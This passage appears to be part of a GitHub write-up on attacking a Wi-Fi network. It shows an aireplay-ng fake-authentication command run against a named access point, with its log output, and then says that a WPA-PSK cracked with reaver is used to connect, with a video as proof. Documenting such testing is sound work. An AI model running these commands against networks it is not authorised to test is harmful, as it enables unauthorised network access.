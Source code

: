     <details>
        <summary> aireplay-ng logs </summary>

        ```bash
        root@kali:~# aireplay-ng --fakeauth 30 -a B4:3D:08:2D:91:41 -h 8C:90:2D:CA:CE:44 wlan0
        13:43:55  Waiting for beacon frame (BSSID: B4:3D:08:2D:91:41) on channel 1

        13:43:55  Sending Authentication Request (Open System) [ACK]
        13:43:55  Authentication successful
        13:43:55  Sending Association Request [ACK]
        13:43:55  Association successful :-) (AID: 1)

        13:44:10  Sending keep-alive packet
        13:44:11  Got a deauthentication packet! (Waiting 3 seconds)
        ```
    </details>

- **We will use the WPA-PSK at the end of the `reaver` logs to connect to the wifi. Below is the video proof that we can connect to the wifi using the cracked WPA-PSK.**

    [![Watch the video](../imgs/238353467-897cd757-ea1f-492d-aaf9-6d1674177e08.gif)](https://youtu.be/stE-FNupm0o)
